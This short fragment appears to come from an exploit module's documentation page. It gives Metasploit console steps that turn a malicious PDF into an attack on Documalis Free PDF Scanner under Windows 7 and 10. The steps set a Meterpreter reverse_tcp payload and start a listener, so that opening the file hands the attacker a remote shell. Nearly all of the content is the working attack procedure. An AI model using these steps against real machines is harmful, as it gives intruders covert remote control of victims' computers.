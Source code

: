 Targets Win 7 and Win 10

Verification
use exploit/windows/fileformat/documalis_free_pdf_scanner
set payload windows/meterpreter/reverse_tcp
set lhost (IP of Local Host)
run

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost (IP of Local Host)
run
Open PDF file and the vulnerability is triggered.
